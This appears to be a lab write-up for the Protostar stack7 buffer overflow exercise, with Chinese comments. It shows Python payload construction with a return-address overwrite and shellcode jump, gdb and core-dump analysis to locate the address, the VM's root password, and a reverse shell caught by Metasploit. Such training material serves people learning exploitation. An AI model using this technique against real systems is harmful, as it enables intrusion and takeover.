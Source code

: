         ret=0x08048492
        payload = 'A'*80+struct.pack("<I",ret)+'BBBBBBBB'+'\x41\x41\x41\x41' #without shellcode here
        f=open("/tmp/stack7.txt","a+")
        f.write(payload)
        f.close()
        input=payload
        #print input
        #os.system("echo '%s' | /opt/protostar/bin/stack7" % input) #执行此行时会发生乱码影响shellcode_addr的查找,这句先不执行
        -------------end-------------
        gdb /opt/protostar/bin/stack7
        disas getpath
        b*getpath+128(at ret in getpath func)
        r < /tmp/stack7.txt
        x/20x $esp
        output:
        0xbffff73c:     0x08048492      0x42424242      0x42424242      0x41414141
        0xbffff74c:     0xb7eadc00      0x00000001      0xbffff7f4      0xbffff7fc
        so shellcode_addr=0xbffff74c
        vi /tmp/stack7.py
        ------add shellcode and modified shellcode_addr------
        payload = 'A'*80+struct.pack("<I",ret)+'BBBBBBBB'+'\x4c\xf7\xff\xbf'+shellcode
        ...
        os.system("echo '%s' | /opt/protostar/bin/stack7" % input)
        -----------------------end---------------------------
        rm stack7.txt
        python stack7.py
        失败,系统乱码,并未反弹shell,于是分析core文件,gdb动态调试时的地址不一定是正确的
        ulimit -c unlimited
        -------modify /tmp/stack7.py--------
        payload = 'A'*80+struct.pack("<I",ret)+'BBBBBBBB'+'\x4c\xf7\xff\xbf'
        ...
        #os.system("echo '%s' | /opt/protostar/bin/stack7" % input)
        ---------------end------------------
        rm stack7.txt
        python stack7.py
        /opt/protostar/bin/stack7 < /tmp/stack7.txt
        su 
        godmode
        chmod 777 co[tab]
        gdb -q -c co[tab]
        x/20x $esp-4
        output:
        0xbffff848:     0xbffff83c      0x90909090      0x90909090      0x90909090
        0xbffff858:     0x90909090      0x90909090      0x90909090      0x90909090
        ---------modify /tmp/stack7.py--------
        payload = 'A'*80+struct.pack("<I",ret)+'BBBBBBBB'+'\x4c\xf8\xff\xbf'+shellcode
        ...
        os.system("echo '%s' | /opt/protostar/bin/stack7" % input)
        ------------------end-----------------
        rm stack7.txt
        python stack7.py
        msf receive a shell connect from protostar
